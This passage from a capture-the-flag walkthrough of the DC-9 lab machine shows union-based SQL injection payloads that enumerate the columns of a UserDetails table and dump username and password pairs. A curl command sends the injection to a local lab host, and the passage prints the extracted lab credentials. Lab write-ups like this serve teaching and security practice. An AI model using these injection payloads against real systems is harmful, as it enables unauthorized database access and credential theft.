 We have found the table **UserDetails**, let's list their respective columns.

`Mary' and 1=2 union select column_name,null,null,null,null,null from information_schema.columns where table_schema='users' and table_name='UserDetails' #`

![](/assets/images/DC-9/screenshot-11.png)

In the output we see two important fields username and password, in the same way we intercept the request with burp and then create the request with curl and filter the data with regular expressions.

`Mary' and 1=2 union select concat(username,0x3a,password),null,null,null,null,null from users.UserDetails #`

![](/assets/images/DC-9/screenshot-12.png)

```console
root@kali:~$ curl -s -X POST "http://192.168.179.128/results.php" --data "search=Mary%27++and+1%3D2+union+select+concat%28username%2C0x3a%2Cpassword%29%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull+from+users.UserDetails+%23" | grep -oP "\w*:\S[^<]*" > UserDetails
root@kali:~$ cat UserDetails
marym:3kfs86sfd
julied:468sfdfsd2
fredf:4sfd87sfd1
barneyr:RocksOff
tomc:TC&TheBoyz
jerrym:B8m#48sd
wilmaf:Pebbles
bettyr:BamBam01
chandlerb:UrAG0D!
joeyt:Passw0rd
rachelg:yN72#dsd
rossg:ILoveRachel
monicag:3248dsds7s
phoebeb:smellycats
scoots:YR3BVxxxw87
janitor:Ilovepeepee
janitor2:Hawaii-Five-0
```
